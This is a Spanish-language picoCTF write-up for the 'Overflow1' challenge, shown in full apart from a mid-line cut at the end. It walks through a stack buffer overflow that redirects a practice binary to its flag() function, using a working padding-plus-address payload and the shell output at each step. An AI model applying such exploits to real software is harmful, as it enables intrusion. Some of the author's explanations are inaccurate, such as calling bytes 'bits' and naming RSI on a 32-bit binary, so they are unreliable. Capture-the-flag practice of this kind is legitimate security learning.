 Overflow1
============
El ejercicio nos dice que debemos lograr direccionar el programa a la función flag()
Así mismo el archivo vuln.c nos muestra que tiene un buffer máximo de [64], Así que al sobrepasarlo obtendremos el overflow


Empecemos llenando el buffer.


    root@lanz]-[$python -c 'print "A"*65' | ./vuln
    Give me a string and lets see what happens: 
    Woah, were jumping to 0x8048705 !


Aún no pasa nada, ya que tenemos 8 bits que guarda en memoria, es como un repuesto.
Al sumar 8 (los bits) + 64 (el buffer)


    root@lanz]-[$python -c 'print "A"*72' | ./vuln
    Give me a string and lets see what happens: 
    Woah, were jumping to 0x8048705 !
    Violación de segmento


Ahora, lo que nos pide el ejercicio es lograr redireccionar a la función flag()
Así que obtendremos la dirección en memoria de la función y se la agregaremos a lo que ya tenemos, con eso lograremos que mantenga las "A"*72 y después de eso agregue la dirección de flag()


Con gdb, objdump, ida, etc... Con cualquiera podemos obtener la dirección.


```
0x080485e0  frame_dummy
0x080485e6  flag
0x0804865f  vuln
0x0804869e  main
```


Como el computador lee las instrucciones de derecha a izquierda, debemos tomar la dirección (0x080485e6) y anotarla así mismo, de derecha a izquierda


    root@lanz]-[$python -c 'print "A"*72 + "\xe6\x85\x04\x08"' | ./vuln
    Give me a string and lets see what happens: 
    Woah, were jumping to 0x8048700 !
    Woah, were jumping to 0x8048705 !
    Violación de segmento


¿Por que habrá salido dos veces la instrucción?
(No lo sé, investigare y editare esto)


Así que aún no hemos llegado a la función flag


    Woah, were jumping to 0x8048700 !
    Woah, were jumping to 0x8048705 !


Si imprimimos "A"*73 vemos esto:


    root@lanz]-[$python -c 'print "A"*73 + "\xe6\x85\x04\x08"' | ./vuln
    Woah, were jumping to 0x8040008 !


Hemos cambiado el registro que direcciona!! (RSI)


Al haber agregado 4 bits (el tamaño de la dirección de la función flag), entonces 72 + 4


    root@lanz]-[$python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
    Give me a string and lets see what happens: 
    Woah, were jumping to 0x80485e6 !
    Flag File is Missing. please contact an Admin if you are running this on the shell server.


Si lo corremos en la shell de picoCTF


    user@pico-2019:/$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
    Give me a string and lets s
